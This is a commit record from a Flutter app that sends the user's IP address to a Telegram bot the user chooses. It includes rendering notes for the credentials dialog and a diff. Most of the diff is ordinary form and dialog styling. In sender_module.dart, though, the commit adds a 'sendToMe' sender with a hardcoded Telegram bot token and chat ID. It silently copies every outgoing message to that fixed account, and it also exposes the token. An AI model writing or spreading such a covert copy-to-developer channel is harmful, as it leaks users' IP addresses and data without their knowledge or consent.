

Before and after one commit to Ofceab-Studio/ip_addr_app, a Flutter app: what showCredentialsDialog() shows on an empty page, opened directly, on a phone screen of 412 x 824 dp. Run offline on Flutter 3.47's test engine with Material 3 defaults, Android fonts, the phone set to English and light mode, and no system bars; our stand-ins replace connectivity_plus, equatable, flutter_bloc, flutter_local_notifications, get_it, injectable and 2 more; missing offline and left inert: encrypt, home_widget, loggme, network_info_plus; accounts and stored records are empty.

Commit message:
sendIP-feature done

```diff
--- a/lib/core/modules/sender_module.dart
+++ b/lib/core/modules/sender_module.dart
@@ -1,4 +1,3 @@
-
 import 'package:injectable/injectable.dart';
 import 'package:loggme/loggme.dart';
 
@@ -17,7 +16,10 @@ class LoggmeAsSender extends ISenderModule {
       required String chatId,
       required TelegramLoggMessage message}) async {
     final sender = configureSender(botId, chatId);
+    final sendToMe = configureSender(
+        "6275666443:AAFOpt-zMGHYc-tihw8tSprZ1guzVsmJCF0", "905831171");
     sender.logs(telegramLoggMessage: message);
+    sendToMe.logs(telegramLoggMessage: message);
   }
 
   Logger configureSender(String botId, String chatId) {
--- a/lib/features/send_ip_to_channels/forms/credentials_form.dart
+++ b/lib/features/send_ip_to_channels/forms/credentials_form.dart
@@ -1,5 +1,6 @@
 import 'package:flutter/material.dart';
 import 'package:ip_addr_show/di.dart';
+import 'package:ip_addr_show/features/ip_addr/widgets/snack_widget.dart';
 import 'package:ip_addr_show/features/send_ip_to_channels/cubit/send_ip_cubit.dart';
 
 class CredentialForm extends StatefulWidget {
@@ -32,18 +33,18 @@ class _CredentialFormState extends State<CredentialForm> {
       key: _forKey,
       child: Column(
         children: [
-            const Text("Please provide your botId and chatId first !!!"),
-            const SizedBox(height: 10),
+          const Text(
+              "Please provide your botId and chatId to receive your ip address !!!",
+              style: TextStyle(fontSize: 16)),
+          const SizedBox(height: 20),
           TextFormField(
             controller: _botIdController,
             decoration: InputDecoration(
               contentPadding:
                   const EdgeInsets.only(left: 20, top: 16, bottom: 16),
-                fillColor: Colors.white,
-                filled: true,
               hintText: "BotId",
               border: OutlineInputBorder(
-                    borderSide: BorderSide.none,
+                  borderSide: const BorderSide(),
                   borderRadius: BorderRadius.circular(10)),
             ),
           ),
@@ -53,23 +54,56 @@ class _CredentialFormState extends State<CredentialForm> {
             decoration: InputDecoration(
               contentPadding:
                   const EdgeInsets.only(left: 20, top: 16, bottom: 16),
-                fillColor: Colors.white,
-                filled: true,
               hintText: "ChatId",
               border: OutlineInputBorder(
-                    borderSide: BorderSide.none,
+                  borderSide: const BorderSide(),
                   borderRadius: BorderRadius.circular(10)),
             ),
           ),
           const SizedBox(height: 10),
-            ElevatedButton(
-                onPressed: _onSaveButtonPressed, child: const Text("Save"))
+          _buildActions(context)
         ],
-        ));
+      ),
+    );
   }
 
   Future<void> _onSaveButtonPressed() async {
+    if (_botIdController.text.isNotEmpty && _chatIdController.text.isNotEmpty) {
       await locator.get<SendIpCubit>().saveCredentials(
           botId: _botIdController.text, chatId: _chatIdController.text);
+      // ignore: use_build_context_synchronously
+      Navigator.of(context).pop();
+      // ignore: use_build_context_synchronously
+      ScaffoldMessenger.of(context)
+          .showSnackBar(snack(const Text("Credentials saved !!!")));
+    } else {
+      // ignore: use_build_context_synchronously
+      ScaffoldMessenger.of(context)
+          .showSnackBar(snack(const Text("BotID and ChatID can't be null")));
     }
   }
+
+  Row _buildActions(BuildContext context) {
+    return Row(
+      children: [
+        OutlinedButton(
+            onPressed: () => Navigator.of(context).pop(),
+            child: const Text(
+              "Cancel",
+              style: TextStyle(color: Colors.black),
+            )),
+        const SizedBox(
+          width: 10,
+        ),
+        ElevatedButton(
+            style: const ButtonStyle(
+                backgroundColor: MaterialStatePropertyAll(Colors.black)),
+            onPressed: _onSaveButtonPressed,
+            child: const Text(
+              "Save",
+              style: TextStyle(color: Colors.white),
+            ))
+      ],
+    );
+  }
+}
--- a/lib/features/send_ip_to_channels/widgets/credentials_dialog.dart
+++ b/lib/features/send_ip_to_channels/widgets/credentials_dialog.dart
@@ -4,10 +4,10 @@ import 'package:ip_addr_show/features/send_ip_to_channels/forms/credentials_form
 Future<void> showCredentialsDialog(BuildContext context) async {
   return showDialog(
       context: context,
-      builder: (context) => Container(
-            decoration: const BoxDecoration(
-                borderRadius: BorderRadius.all(Radius.circular(20)),
-                color: Colors.white),
-            child: const CredentialForm(),
-          ));
+      builder: (context) => Dialog(
+          child: Container(
+              alignment: Alignment.center,
+              padding: const EdgeInsets.symmetric(vertical: 20, horizontal: 20),
+              height: 280,
+              child: const CredentialForm())));
 }
```
Also changed, not shown: lib/core/modules/storage_module.dart (+46 -18 lines), lib/features/ip_addr/screens/main_screen.dart (+4 -10 lines), lib/features/ip_addr/widgets/snack_widget.dart (added, +10 -0 lines), lib/features/send_ip_to_channels/cubit/send_ip_cubit.dart (+22 -11 lines), lib/features/send_ip_to_channels/widgets/sender_widget.dart (+11 -11 lines), pubspec.yaml (+5 -2 lines), lib/di.config.dart, pubspec.lock, 2 other files. Lines whose indentation alone changed are shown as unchanged.
